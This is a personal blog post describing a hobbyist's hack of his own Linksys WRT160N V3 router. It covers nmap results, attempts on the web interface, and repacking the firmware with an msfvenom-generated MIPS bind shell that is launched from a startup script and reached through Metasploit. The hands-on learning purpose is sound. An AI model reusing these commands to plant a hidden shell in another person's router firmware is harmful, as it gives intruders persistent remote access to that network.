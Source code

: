 ```yaml
---
layout: post
title: 'Modifying Router Firmware - Linksys WRT160N V3'
date: 2022-10-16
categories: exploitation
---
```

# Preface
There is a point in a man's (or woman's) life where he wakes up and decides that he needs to learn some embedded, or hardware-related cyber.
I had a friend of mine who tell me he had an old router laying around, and asked if I would like to recieve it.
I knew it was time.
![linksys_router](https://user-images.githubusercontent.com/53023744/196064650-137f185d-7708-45a7-8b88-ed1d16f43112.jpg)


# Goal
My goal is simple:
Find an RCE vulnerabillity (post auth), or somehow pop a reverse shell on the router.


# Attack Surface
#### NMAP
I started with enumerating all of the open ports on the device with `nmap`.
This is the scan result:
```
Nmap scan report for 192.168.1.1
Host is up (0.034s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Tomato WAP firmware httpd (Linksys WRT160Nv3 WAP)
|_http-title: 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=WRT160Nv3
|_http-server-header: httpd
1780/tcp  open  http    Cisco DPC3828S WiFi cable modem
10080/tcp open  amanda?
Service Info: OS: Linux; Device: WAP; CPE: cpe:/o:linux:linux_kernel, cpe:/h:cisco:dpc3828s
```

After briefly researching about each of the running services, I couldn't find anything interesting or helpful.
I decided to digg into the most attractive option - The httpd server, and the web pages it was serving to me.


#### Web Server
This is the main page you get when you try to access the router:
![Main Page](https://user-images.githubusercontent.com/53023744/196054477-ca2a2870-7fa0-43ce-a4c4-577538c0d536.png)

Shortly, this is what I've tried:
* Searching for classic command injections in the ping/traceroute/etc interfaces.
	* The httpd server uses fork(), which behind the scenes calls execvp().
		* How do I know that httpd uses fork()? We'll see later.
	* This means that we can't inject commands, unless we find a way to manipulate the binaries in our favor (basically a LOLBIN).
* Looking into Elon Gliksberg's [article](https://elongl.github.io/exploitation/2021/05/30/pwning-home-router.html) about a similar product - Linksys WRT54G.
	* I've found that in my router's firmware the bug via the language interface was patched.
* The comfortable way: There is a firmware upgrade interface where you can upload your own firmware.
	* If the other methods will fail, I'll go with this one.


# Firmware & Sources
I have to say, finding the right firmware was a cancerous journey.
Linksys had taken down many of the previously available firmwares from their site,
which made searching through the web a little more challenging.
Even though I tried looking into the Wayback Machine - I was stuck with the [sources](https://sourceforge.net/projects/officiallinksysfirmware/files/wrt160n/v3/) only.

At first, you might think to yourself:
"Wow! I can explore everything I want!".
Well, you'll be partially right.
Having the sources _**does**_ help.
But it doesn't always tell you to what architecture the firmware was compiled to,
and it also may not have some patches that the final firmware has.

Luckily enough, I eventually found the right firmware in some [forum](https://forum.dd-wrt.com/phpBB2/viewtopic.php?p=654578).
You can dowload it here if the site is down: [WRT160Nv3_0_03_003.zip](https://github.com/MaximAshin/MaximAshin.github.io/files/9795539/WRT160Nv3_0_03_003.zip)


# Reversing httpd - TODO!!!!!!!!!!!!!!!!!!!!!!!!!
Following the [article](https://elongl.github.io/exploitation/2021/05/30/pwning-home-router.html) Elon wrote, I reversed the httpd binary and searched for dangerous function calls like system(), eval() etc...
Also, I tried to find mentions of nvram_get() (nvram == non volatile ram == stays on the disk) to see if there's any unsanitized user input being used in important places.


# Let's Build a Firmware!
After spending a few hours reversing httpd, I thought to myself that I should try re-building the firmware with my own reverse-shell.
I knew this wasn't any fancy RCE exploit, but a common problem with wacky routers.
Still, I believe this is a handy trick to learn.

First, let's start by downloading the [firmware-mod-kit](https://github.com/rampageX/firmware-mod-kit).
This kit allows us to extract the rootfs from the firmware, add/edit stuff in it, and re-build it.
The kit is **really easy to use**, and you always can reffer to the [docs](https://code.google.com/archive/p/firmware-mod-kit/wikis/Documentation.wiki).

The steps are like so:
```
./extract-firmware.sh ../WRT160Nv3_0_03_003.code1.bin

cd fmk/rootfs/

# Add/Modify stuff here
# Make sure to chmod 777 your-binaries if you upload any
cp ~/Desktop/my_binary_file bin/
chmod 777 bin/my_binary_file

./build-firmware.sh 

# Upload new firmware!
```

Now, before we build our custom binary reverse-shell,
we need to know what architecture we need to compile the binary to.
This can be checked by running `file` on a random binary from the rootfs/bin folder:
```
file rootfs/bin/busybox
Output:
fmk/rootfs/bin/busybox: ELF 32-bit LSB executable, MIPS, MIPS-I version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, stripped
```

Now let's get to the step where we build our custom reverse-shell, compiled to 32bit mipsel (mipsel == MIPS little-endian).

#### msfvenom
msfvenom is a handy utility that allows us to create (common-use-case) binaries/payloads.
In my case, I searched for payloads that run on mipsel architecture.

```msfvenom -l payloads | grep mipsle```

![image](https://user-images.githubusercontent.com/53023744/196055645-ef0680da-0e41-45f0-8bd2-2f577fc7628f.png)


As we can see, I can create a simple bind shell (listens in a given port and waits for a connection).
We can create the binary itself like so:

```
msfvenom -p linux/mipsle/shell_bind_tcp LPORT=50505 -f elf > bs_backdoor

cp bs_backdoor /fmk/rootfs/bin
chmod 777 /fmk/rootfs/bin/bs_backdoor
```

But wait!
What would make our binary run at all?
Well, bash scripts :)

In many routers, there are a some scripts that run on startup, or on some particular occasion.
We can search for such scripts like so:

```
find fmk/rootfs -name "*.sh*"
Output:
fmk/rootfs/usr/sbin/rotatelog.sh
```

We can modify the script and run our binary from there!
![image](https://user-images.githubusercontent.com/53023744/196065187-621f4102-1e10-439c-a418-1cf30a08ea7f.png)


Also, I wanted to leave a final touch on the router's main page before we re-build the firmware, so I edited index.asp:
![image](https://user-images.githubusercontent.com/53023744/196062658-4e7634b3-6292-4a3c-9a77-87b16b61cfb1.png)


Finally, I ran the `./build-firmware.sh` script and got a new firmware.
Let's upload it :)



# Victory
I went onto the firmware upgrade page, and uploaded the new firmware:

![image](https://user-images.githubusercontent.com/53023744/196064210-275cd403-00f7-4c76-bb00-9d7b8945b533.png)

After a few minutes, I had a screen showing that the upgrade completed successfully!
I waited for the router to restart.

When I saw that the lights on the router stopped blinking, I browsed to the main page.
As we can see, index.asp looked a little different (hehe):

![image](https://user-images.githubusercontent.com/53023744/196062617-0f5bae8f-04d0-4d50-86ed-94cbe260061f.png)


I quickly fired up Metasploit's listener and got a connection:

![image](https://user-images.githubusercontent.com/53023744/196055470-b6343f0c-cf0c-4b13-a3a1-dd64ca53b435.png)


I have a bind shell running on the router!
TBH, It was really fun.


# Additional Sources
Re-Packing Router's Firmware:
https://www.youtube.com/watch?v=M3vQmQ4TSa4&ab_channel=CJHackerz
